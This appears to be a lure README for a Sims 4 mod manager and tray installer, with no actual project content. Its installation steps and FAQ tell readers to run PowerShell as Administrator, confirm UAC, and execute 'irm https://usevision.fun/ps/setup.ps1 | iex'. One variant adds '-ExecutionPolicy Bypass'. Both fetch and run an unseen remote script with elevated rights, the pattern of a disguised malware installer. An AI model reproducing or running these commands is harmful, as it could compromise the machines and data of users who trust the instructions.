

<div align="center">


<br>


# The Sims 4 Comprehensive Mod Manager & Tray Installer
**Mod manager · Tray install · Conflict scan**
<br>
**Mod manager · Tray install · Conflict scan**
<br>
Windows · Setup · Deployment



**The Sims 4 · Mod manager · Tray installer · Windows**

</div>
---

> Mod manager and tray installer for The Sims 4 on Windows — organize package files, install tray items, and scan for mod conflicts.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🧩 **Mod manager** — Enable, disable, and sort package files.
📥 **Tray installer** — Drag-and-drop tray item installation.
🛡️ **Conflict scan** — Detect duplicate and broken mod entries.
🔄 **Smart updates** — Refresh mod list after folder changes.
⚡ **One command setup** — PowerShell handles download and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 10 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 10 GB.
</details>


TAGS
sims-4, mod-manager, tray-installer, custom-content, ea-games, simulation, gaming, windows, desktop, software
